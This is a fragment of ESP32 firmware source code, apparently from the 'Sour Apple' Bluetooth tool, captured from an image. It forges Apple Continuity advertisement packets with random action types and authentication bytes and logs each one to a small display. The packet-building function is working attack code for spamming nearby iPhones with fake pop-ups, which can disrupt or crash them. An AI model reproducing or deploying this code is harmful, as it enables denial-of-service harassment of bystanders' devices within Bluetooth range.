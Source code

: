 void addLineToDisplay(String newLine) {
  for (int i = MAX_LINES - 1; i > 0; i--) {
    lines[i] = lines[i - 1];
  }
  lines[0] = newLine;
  updatedisplay();
}

void displayAdvertisementData() {
  String lineStr = String(lineNumber) + " -> ";
  lineNumber++;
  // Convert the advertisement data to a readable string format
  //String dataStr = "Type: 0x";
  String dataStr = "0x";
  dataStr += String(packet[1], HEX);
  //dataStr += ", CompID: 0x";
  dataStr += ",0x";
  dataStr += String(packet[2], HEX);
  dataStr += String(packet[3], HEX);
  //dataStr += ", ActType: 0x";
  dataStr += ",0x";
  dataStr += String(packet[7], HEX);

  addLineToDisplay(lineStr + dataStr);

}

BLEAdvertisementData getOAdvertisementData() {
  BLEAdvertisementData advertisementData = BLEAdvertisementData();
  uint8_t i = 0;

  packet[i++] = 17 - 1;                             // Packet Length
  packet[i++] = 0xFF;                               // Packet Type (Manufacturer Specific)
  packet[i++] = 0x4C;                               // Packet Company ID (Apple, Inc.)
  packet[i++] = 0x00;                               // ...
  packet[i++] = 0x0F;                               // Type
  packet[i++] = 0x05;                               // Length
  packet[i++] = 0xC1;                               // Action Flags
  const uint8_t types[] = { 0x27, 0x09, 0x02, 0x1e, 0x2b, 0x2d, 0x2f, 0x01, 0x06, 0x20, 0xc0 };
  packet[i++] = types[rand() % sizeof(types)];      // Action Type
  esp_fill_random(&packet[i], 3);                   // Authentication Tag
  i += 3;
  packet[i++] = 0x00;                               // ???
  packet[i++] = 0x00;                               // ???
  packet[i++] =  0x10;                              // Type ???
  esp_fill_random(&packet[i], 3);

  advertisementData.addData(std::string((char *)packet, 17));
  return advertisementData;
}

void sourappleSetup() {

  tft.setRotation(0);
  tft.setTextSize(1);
  tft.fillScreen(TFT_BLACK);
